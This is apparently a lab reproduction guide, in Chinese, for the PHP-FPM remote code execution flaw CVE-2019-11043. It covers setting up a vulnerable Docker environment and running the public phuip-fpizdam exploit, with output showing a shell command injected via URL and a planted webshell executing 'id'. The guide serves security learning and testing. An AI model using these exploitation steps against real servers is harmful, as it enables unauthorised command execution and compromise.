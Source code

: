 # PHP-FPM 远程代码执行漏洞（CVE-2019-11043）

PHP-FPM 是 PHP 的 FastCGI 实现。在 PHP 7.1.x 版本低于 7.1.33、7.2.x 版本低于 7.2.24 和 7.3.x 版本低于 7.3.11 的 FPM 配置下，PHP-FPM 模块可能会将超过分配缓冲区的数据写入 FCGI 协议数据空间，从而导致远程代码执行。

该漏洞最初是在长亭科技举办的 Real World CTF 2019 比赛中被发现。国外安全研究员 Andrew Danau 在解决一道 CTF 题目时发现，向目标服务器 URL 发送包含 %0a 符号的请求时，服务器返回异常，进一步研究发现这是一个严重的远程代码执行漏洞。

这个漏洞存在于 Nginx 与 PHP-FPM 的交互过程中，最常见的易受攻击配置包含 `location ~ [^/]\.php(/|$)` 规则。

参考链接

- PHP 官方漏洞报告：<https://bugs.php.net/bug.php?id=78599>
- 技术分析文章：<https://lab.wallarm.com/php-remote-code-execution-0-day-discovered-in-real-world-ctf-exercise/>
- 漏洞利用工具：<https://github.com/neex/phuip-fpizdam>

## 环境搭建

执行如下命令启动包含漏洞的 Nginx 和 PHP-FPM 环境：

```
docker compose up -d
```

环境启动后，访问 `http://your-ip:8080/index.php` 即可看到默认页面。

## 漏洞复现

使用 https://github.com/neex/phuip-fpizdam 提供的工具进行漏洞利用：

```
$ go run . "http://your-ip:8080/index.php"
2019/10/23 19:41:00 Base status code is 200
2019/10/23 19:41:00 Status code 502 for qsl=1795, adding as a candidate
2019/10/23 19:41:00 The target is probably vulnerable. Possible QSLs: [1785 1790 1795]
2019/10/23 19:41:02 Attack params found: --qsl 1790 --pisos 152 --skip-detect
2019/10/23 19:41:02 Trying to set "session.auto_start=0"...
2019/10/23 19:41:02 Detect() returned attack params: --qsl 1790 --pisos 152 --skip-detect <-- REMEMBER THIS
2019/10/23 19:41:02 Performing attack using php.ini settings...
2019/10/23 19:41:02 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2019/10/23 19:41:02 Trying to cleanup /tmp/a...
2019/10/23 19:41:02 Done!
```

当看到以下输出时，表示漏洞利用成功：

![](1.png)

成功利用漏洞后，一个 webshell 会被注入到 PHP-FPM 进程中。可以通过访问以下 URL 来执行命令：

```
http://your-ip:8080/index.php?a=id
```

命令执行成功的示例：

![](2.png)

### 重要说明

1. 此漏洞只会影响部分 PHP-FPM 子进程。如果命令第一次没有执行成功，需要多次尝试以访问到被污染的进程。
2. 漏洞利用的成功与否很大程度上取决于具体的 Nginx 配置。最常见的易受攻击配置包括：
   - 启用了 FastCGI 处理
   - 通过 PHP-FPM 处理 PHP 文件
   - 包含特定的、可被利用的 location 规则
